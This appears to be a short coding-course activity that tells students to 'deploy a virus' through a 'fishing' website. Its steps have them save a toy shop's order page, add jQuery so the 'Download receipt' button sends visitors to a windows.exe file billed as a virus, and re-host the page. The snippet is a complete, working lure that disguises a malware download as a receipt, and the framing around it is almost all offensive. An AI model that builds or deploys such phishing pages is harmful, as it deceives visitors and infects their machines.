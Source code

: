 Deploy Virus Using a Website
======================
In this activity, you will deploy a virus using a fishing website.


<img src= "https://s3-whjr-curriculum-uploads.whjr.online/e8d01e01-d0d6-4ebe-8d57-d943b6cea187.gif" width = "100%" height = "50%">




Follow the given steps to complete this activity.




1. Open the toy [E-commerce](https://tnk-m16-toywebsite.onrender.com/) website and place an order for a toy.
   
2. Save the profile.html page with `Download receipt` button on your system.
3. Open the downloaded file and add the jquery script to download the executable virus from `https://github.com/Tynker-Computer-Networks/TNK-M16-VirusExecutables/raw/main/windows.exe` on button click.
   * Open `profile.html` and add code to download the virus.
   ```
   <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
    <script>
            $(".receipt-button").click(function(){
                window.location.href = "https://github.com/Tynker-Computer-Networks/TNK-M16-VirusExecutables/raw/main/windows.exe";
            })
    </script>
   ```
4. Host the profile.html file back on the github repository and generate the link.


Check if the hosted fishing website can download the virus or not.




